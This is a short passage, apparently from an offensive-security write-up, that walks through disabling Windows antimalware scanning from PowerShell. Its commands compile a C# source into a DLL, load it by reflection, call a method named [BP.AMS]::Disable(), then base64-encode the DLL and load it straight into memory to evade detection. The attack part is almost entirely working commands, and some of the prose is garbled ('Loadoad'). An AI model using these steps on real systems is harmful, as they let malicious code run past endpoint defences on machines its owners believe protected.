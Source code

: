 To load it into Powershell we can use its native (.NET) API:
```
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll")) 
[BP.AMS]::Disable()
```

encode the entire DLL to base64 and create a script that will automatically reflect it to memory and execute it. To encode the dll to Then base64 I used this command.
```
$OriginalCommand = [Convert]::ToBase64String([IO.File]::ReadAllBytes("$pwd\\Source.dll"));$OriginalCommand
```

Loadoad it into memory

```
[Reflection.Assembly]::Load([Convert]::FromBase64String($OriginalCommand)) | Out-Null
```
